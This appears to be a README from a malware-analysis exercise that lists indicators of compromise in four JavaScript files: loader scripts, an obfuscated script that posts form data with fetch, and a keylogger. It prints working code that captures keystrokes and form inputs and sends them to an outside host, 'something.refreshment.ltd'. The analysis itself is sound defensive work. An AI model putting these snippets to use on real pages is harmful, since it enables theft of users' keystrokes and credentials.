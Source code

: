 ## Findings

Below are indicators of compromise and some notworthy findings detected manually in the given files. In `file2.js` I did not find the time to fully detect its behaviour apart from two notworthy findings.

### file1.js

`file1.js` is a loader script. Indication of malicious activity:
- Uncomment page comments: This indicates that the script knows that something useful exists in these comments (probably known from reconnesaince technics) or another malicious script has created a stealthy script element with comments and stored information
- Use of `document.write`: the script writes a `script` element in the page with an remote url as src, that gives the attacket the ability to load `.js` scripts bypassing potential controls applied only to API requests.
- Use of `window.execScript` and `window.eval`: these two functions execute Javascript code as string and specifically the response text by the `XHR` request.   

### file2.js (did not find notworthy findings)
`file2.js`. Indicators oc Compromise:
- Constructs url from various variables in this function:
    ```javascript
    if(_0x811535[_0x14b009(0xe4)][_0x33d39c[0x0]][_0x14b009(0x102)]==_0x33d39c[0x1]&&xfkwf[_0x14b009(0xee)](_0x811535,_0x33d39c[0x2])[_0x14b009(0xf1)]>0x0){
                    if(_0x33d39c[0x3]=='l')xfkwf['awcsb'][_0x33d39c[0x4]]+='\x20'+xfkwf[_0x14b009(0xee)](_0x811535,_0x33d39c[0x2]);else{
                        if(_0x33d39c[0x3]=='y')xfkwf[_0x14b009(0x10e)][_0x33d39c[0x4]]+='/'+xfkwf[_0x14b009(0xee)](_0x811535,_0x33d39c[0x2]);
                        else xfkwf[_0x14b009(0x10e)][_0x33d39c[0x4]]=xfkwf[_0x14b009(0xee)](_0x811535,_0x33d39c[0x2]);
                    }
                }
    ```
- Calls `fetch` and send `FormData`:
    ```javascript
        if(xfkwf[_0x4dcc4c(0xe7)]==0x1){
            var _0x48fd7e=new FormData();
            _0x48fd7e[_0x4dcc4c(0x124)](xfkwf['vnskp_param'],_0x1cdb15),
            fetch(xfkwf[_0x4dcc4c(0x116)](xfkwf[_0x4dcc4c(0x10b)])+'?'+Math[_0x4dcc4c(0xdb)](),{
                'method':_0x4dcc4c(0xd7),
                'body':_0x48fd7e
            });
        }
    ```

### file3.js
`file3.js` is a loader script. Indication of malicious activity:
- Creation of invisible `iframe` with `pointer-events` set to `none`: indicates that the attacker can steal browser events by side loading a script through an `iframe`
- Initialization of multiple suspicious javascript files concatenated with the public path `"https://js.mysitecdn.com/"`
    ```javascript
        f=l+"frame.7a3ddac5.js",
        w=l+"vendor.e163e343.js",
        h=l+"frame-modern.78abb9d0.js",
        v=l+"vendor-modern.dde03d24.js",
    ```
    These scripts are then embeded to the page: 
    ```javascript
        var p=function(e){
            var t=document.createElement("script");
            return t.type="text/javascript",t.charset="utf-8",t.src=e,t
        },
    ```
    ```javascript
    return n.contentDocument.head.appendChild(a),
            n.contentDocument.head.appendChild(s),
    ```
- Accepts custom events (probably from loaded) scripts: custom events are registered in the below lists
    ```javascript
        d=[
            "turbo:visit",
            "turbolinks:visit",
            "page:before-change"
        ],
        u=[
            "turbo:before-cache",
            "turbolinks:before-cache"
        ],
        m=[
            "turbo:load",
            "turbolinks:load",
            "page:change"
        ];
    ```
    at the end, the script listens for these events:
    ```javascript
            (
            E(),
            function(e,t,n){
                // load iframe for events "turbo:load", "turbolinks:load" and 
                // "page:change".
                m.forEach((function(t){ 
                    document.addEventListener(t,e)
                })),
                // remove iframe for events "turbo:before-cache", "turbolinks:before-cache"
                u.forEach((function (e){
                    document.addEventListener(e,t)
                })),
                // delete window["MySite"]
                d.forEach((function(e){
                    document.addEventListener(e,n)
                }))
            }(
                E,
                x,
                (function(){
                    window[g]("shutdown",!1),delete window[g],x(),_()
                })
            )
        )
    ```
    In order to prevent such activity, we could block listeners on events that are not registered in the page but we could potentially trigger false positives from e.g. events registed by frameworks like React.

### file4.js

`file4.js` is a keylogger. Indication of malicious activity:
- Initializes listener on event `keydown`: on key press, the script stores the key to a variable: `keys`
    ```javascript
    window.addEventListener("keydown", e => {
        // If it's not just a letter (e.g. a modifier key), make it easier to spot e.g. "[Tab]"
        if (e.key.length > 1) {
            keys += `[${e.key}]`;
        } else {
            keys += e.key;
        }
    });
    ```
- Initializes listener on event `beforeunload`: this enables the attacker to execute code just before the DOM is destroyed. On `beforeunload` the script sends the content of the `keys` variable to the url "https://something.refreshment.ltd/keys";
    ```javascript
    window.addEventListener("beforeunload", function (e) {
        if (keys.length === 0) {
            return;
        }
        e.preventDefault();
        sendData({
            keys,
            url: window.location.href
        }, externURLKeys);
    });
    ```

- Initializes listener on event `submit`: this enables the attacker to trigger actions on form submittions. Specifically, the script collects the values from `input`, `select` and `textarea` elements and sends them to the external url "https://something.refreshment.ltd/send"
    ```javascript
    document.addEventListener("submit", function (e) {
        e.preventDefault();
        const formData = collectFormData();
        sendData(formData, externURL);
    });
    ```